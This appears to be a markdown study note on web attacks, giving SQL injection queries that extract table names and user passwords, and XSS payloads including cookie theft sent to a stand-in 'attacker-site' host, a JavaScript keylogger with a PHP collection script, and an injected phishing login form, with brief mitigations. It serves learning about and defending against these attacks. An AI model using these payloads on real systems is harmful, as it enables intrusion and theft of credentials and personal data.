 ## Attacks
### SQL Injection
- Find the database
    Suppose a vulnerable website with a backend MySql database allows querying data like so
    ```bash
    $ SELECT col1, col2, col3 from <table> where <col> Like '%{user_input}%'
    ```
    We can verify its a Mysql Database by passing
    ```bash
    value' AND 1 == sleep(3);--
    ```
    If there is a delay in response due to sleep, then its a MySql database else keep trying for equivalent commands for other     database
- Find other tables

    If we pass this value in the user field
    ```bash
    some_value' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.tables);--
    ```
    This will result in the follwing query getting executed in backend
    ```bash
    SELECT col1, col2, col3 from <table> where <col> Like '%some_value' 
    UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.tables);--%'
    ```
- Query a sensitive table

    One way to randomly guess is to select from a particular table and execute a sleep. If the table exists then, you will see     delay in response else you will immediately see an error.

    OR

    pass below in user input to see the columns of the sensitive table
    ```bash
    some_value' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME='users');--
    ```
    Now you can query data from sensitive table
    ```bash
    some_value' UNION (SELECT user_password, address, 3 FROM users);--
    ```
Mitigation
- Use parameterized queries
- Validate user input

### Javascript Injection
Can allow the attacker manipulate client side code in the website by injecting malicious javascript via <script></script> tag via an unsanitized user input field
Typical JS Injection targets are:
- Various forums
- Article‘s comments fields
- Guestbooks
- Any other forms where text can be inserted.

Imagine a product comany with a text field for customer reviews. An attacker can then inject the follwing to alter the look and field of the website for other users, when they load the page
```bash
<script>$document.getElementById("some-id").style.visibility="hidden"</script>
```
```bash
<script>document.background-image: url(“other-bad-image.jpg“);</script>
```
Mitigation
- Sanitize user input
- Remove `script` tag when saving in database
### XSS
Attacker tries to gain information by injecting javascript in the target website. 
This can result in
- Cookie theft
    ```bash
    <script>window.location='http://attacker-site/?cookie='+document.cookie</script>
    ```
- Keylogging

    exploit.js
    ```bash
    var keys = '';

    document.onkeypress = function(e) {
        var get = window.event ? event : e;
        var key = get.keyCode ? get.keyCode : get.charCode;
        key = String.fromCharCode(key);
        keys += key;----
    }

    window.setInterval(function(){
        new Image().src = 'http://127.0.0.1/demo/1/exploit/exploit.php?keylog=' + keys;
        keys = '';
    }, 1000);
    ```
    server
    ```bash
    <?php

    if(!empty($_GET['keylog'])) {
        $logfile = fopen('logs.txt', 'a+');
        fwrite($logfile, $_GET['keylog']);
        fclose($logfile);
    }
    ?>
    ```
- Phishing
  The payload below injects a form forcing unsuspecting users to enter login and password
  ```bash
  <h3>Please login to proceed</h3> 
  <form action=http://attacker>
    Username:
    <br><input type="username" name="username"></br>
    Password:
    <br><input type="password" name="password"></br>
    <br><input type="submit" value="Login"></br>
  </form>
  ```
- Perform unauthorized activities
    Posting comment on user's behalf
    ```bash
    <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
        xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
        xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
    </script>
    ```

Types of XSS
  - Reflective

    When attacker tricks an user to click on a link (sent in email) and adds malicious js code in the link
    ```bash
    https://www.bigbank.com/q?=
    <script>
    document.write('<img src="http://attacker/?cookie='+ document.cookie'"/>')
    </script>
    ```
  - Persistent

    This can happen when attacker successfully injects js in a webpage that loads for other users

    1. Attcker --> POST https://website/comment
    ```bash
    <script>window.location='http://attacker-site/?cookie='+document.cookie</script>
    ```
    2. Website saves comment with js code withing script tag
    3. Victim loads webpage, obliious of malicious js loading GET http://website/comments
    4. Attacker receives cookie 
    ```
    http://attacker-site/?cookie=<some-cookie>
    ```
### CSRF
### Broken authentication
### Privilege escalation
### Buffer Overflow
